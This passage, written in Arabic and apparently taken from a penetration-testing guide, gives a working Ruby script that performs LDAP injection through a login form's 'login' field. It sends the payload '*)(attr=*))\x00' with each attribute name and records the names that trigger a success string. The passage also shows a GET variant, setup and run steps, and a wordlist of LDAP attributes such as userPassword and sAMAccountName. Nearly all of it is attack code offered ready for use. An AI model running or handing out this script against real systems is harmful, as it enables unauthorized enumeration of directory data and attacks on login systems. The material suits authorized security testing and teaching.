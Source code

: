 #### سكربت Ruby لاكتشاف الخصائص
```ruby
#!/usr/bin/env ruby
require 'net/http'

fields = []
url = URI('https://TARGET_URL.com/')  # استبدل بـ URL الموقع
world = File.read('dic').split("\n")

world.each do |i|
  http = Net::HTTP.new(url.host, url.port)
  http.use_ssl = true if url.scheme == 'https'
  request = Net::HTTP::Post.new(url)
  request.set_form_data('login' => "*)(#{i}=*))\x00", 'password' => 'bla')
  response = http.request(request)
  if response.body.include?('TRUE CONDITION')  # استبدل TRUE CONDITION بنص يظهر عند النجاح
    fields << i
  end
end

puts fields
```

- **الإعداد**:
  - نفس ملف `dic` المستخدم في سكربت Python.
  - استبدل `https://TARGET_URL.com/` بعنوان الموقع.
  - استبدل `'TRUE CONDITION'` بنص النجاح.
- **التعديلات الممكنة**:
  - مماثلة لتعديلات Python (تغيير نوع الطلب، حقل الإدخال، شرط النجاح، إضافة رؤوس).
  - مثال لاستخدام GET:
    ```ruby
    request = Net::HTTP::Get.new(url + "?search=*)(#{i}=*))\x00")
    ```
- **التشغيل**:
  - `ruby discover_fields.rb`
- **المخرجات**:
  - يطبع قائمة بالخصائص الصالحة.

#### قائمة الخصائص للاختبار
إليك قائمة الخصائص الشائعة التي يجب إدراجها في ملف `dic`:
- `uid`
- `cn`
- `sn`
- `userPassword`
- `mail`
- `givenName`
- `objectClass`
- `name`
- `surname`
- `commonName`
- `displayName`
- `telephoneNumber`
- `description`
- `memberOf`
- `sAMAccountName`
- `userPrincipalName`
